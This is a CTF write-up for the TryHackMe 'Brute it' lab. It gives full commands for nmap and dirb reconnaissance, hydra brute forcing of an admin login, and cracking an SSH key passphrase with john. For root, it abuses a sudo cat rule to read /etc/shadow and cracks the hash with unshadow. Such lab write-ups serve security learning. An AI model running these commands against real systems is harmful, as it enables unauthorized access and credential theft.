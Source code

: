 ```yaml
---
title: Brute it - Easy THM
date: 2023-11-12 08:11:31 +/-0800
categories: [writeup, TryHackMe]
writeup: :title
permalink: /bruteit
tags: [Web]     # TAG names should always be lowercase
---
```


- OS: Linux
- Difficulty: Easy
- Author: Talace🌌

## Scanning 👀

#### **Threader3000**
```bash
python3 threader3000.py

Port 80 is open
Port 22 is open
```
#### **nmap scan**
```bash
nmap -p80,22 -sV -sC -T4 -Pn -oA 10.10.205.60 10.10.205.60

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
## Enumeration 🧐

#### Starting by enumerate the website with **dirb** 🧐
```bash
dirb http://10.10.205.60/ /usr/share/wordlists/dirb/common.txt

http://ip/admin/
```
Found a form login on the /admin/

![loginForm](/assets/bruteit/loginform.png)

#### Let's brute force it with **hydra**
```bash
sudo hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.205.60 http-post-form "/admin/:user=admin&pass=^PASS^:Username or password invalid"
```

### Found the creds! 😼

![hydraBruteForce](/assets/bruteit/hydraBruteForce.png)

We now got access to this page, we have the user's **flag** (youhou!), a user name's **John**, and a **private key ssh**

![panelAdmin](/assets/bruteit/panelAdmin.png)

#### Let's use **ssh2john** to crack it! 🤠
```bash
echo 'private rsa key' >> id_rsa

ssh2john id_rsa > id_rsa.hash

john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash
```

### **We got the password!**

![johnCrackRsa](/assets/bruteit/johnCrackRsa.png)

## Privilege escalation 🐧

Connect via ssh
```bash
chmod 400 id_rsa

ssh -i
```

#### Looking for sudo rights and found this banger!
```bash
sudo -l

(root) NOPASSWD: /bin/cat
```

Let's use it for our own!
```bash
LFILE=/etc/shadow

sudo cat "$LFILE"
```

Now that i can read /etc/shadow, i'm going to crack it with unshadow && john

#### unshadow & john
```bash
echo 'root:x:0:0:root:/root:/bin/bash' >> passwd.txt

echo 'root:hash' >> shadow.txt

unshadow passwd.txt shadow.txt > unshadow.txt
```

It's time to crack it!
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt unshadow.txt
```

### And me able to get root! Brute it is pwned! 😼

![root](/assets/convertMyVideo/root.png)

## Resources 🤖
[GTFObins : https://gtfobins.github.io/gtfobins/cat/](https://gtfobins.github.io/gtfobins/cat/)